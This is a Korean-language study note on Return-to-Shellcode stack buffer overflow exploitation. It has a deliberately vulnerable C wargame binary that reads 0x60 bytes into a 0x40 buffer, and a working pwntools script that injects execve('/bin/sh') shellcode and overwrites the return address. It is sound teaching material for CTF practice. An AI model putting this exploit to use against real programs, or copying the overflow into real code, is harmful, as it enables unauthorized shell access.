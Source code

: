 ## RTS
Return to Shellcode
BOF로 exploit하는 방법의 일종

스택프레임의 RET을 shellcode로 덮어쓴다.

- 공격자는 주입한 공격코드를 실행시키기 위해서는 다음 실행시킬 코드의 주소를 저장하고 있는 **EIP** 레지스터를 조작한다. 공격자는 셸을 실행시키는 코드(shellcode)를 미리 주입해 둔 후(보통 buf에 입력)에 공격 코드의 주소를 RET에 입력함으로서 셸을 실행시킬 수 있다. 기본적으로 RET에는 명령어 복귀 주소가 들어있지만 이를 덮어씌우는 것이다.

![](https://i.imgur.com/9zx8fZr.png)

![](https://i.imgur.com/PH4z1kv.png)

### 예제 1
새싹첼의 rts를 풀어보자
```C
# include <stdio.h>
# include <stdlib.h>
# include <stdint.h>
# include <unistd.h>
  
void setup_environment() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}
  
int main() {
    setup_environment();
    register volatile uint64_t rsp asm("rsp");  
    printf("[+] rsp : 0x%016lx\n", rsp);  
    char buffer[0x40] = { '\0' };
    printf("[+] Input\n");
    printf("> ");
    read(0, buffer, 0x60);
    return 0;
}
```

![](https://i.imgur.com/myCfncJ.png)
보호기법은 위와같다.

시작하면 buffer의 주소를 알려준다. 그러면 shellcode + buffer_dummy + sfp + buffer_add 로 익스플로잇을 할 수 있다.
익스플로잇 코드를 보자.

```python
from pwn import *
  
context(arch = "amd64", os='linux')
  
p = process("./rts")
  
shell = asm(shellcraft.execve("/bin/sh", 0, 0))
  
rbp = b'\x41\x41\x41\x41\x41\x41\x41\x41'
p.recvuntil('0x0000')
  
rspadd = int(p.recvn(12),16)
rspadd = p64(rspadd)
  
exp = shell + b'\x90'*(0x40-len(shell)) + rbp + rspadd
  
p.sendafter(b"> ", exp)
```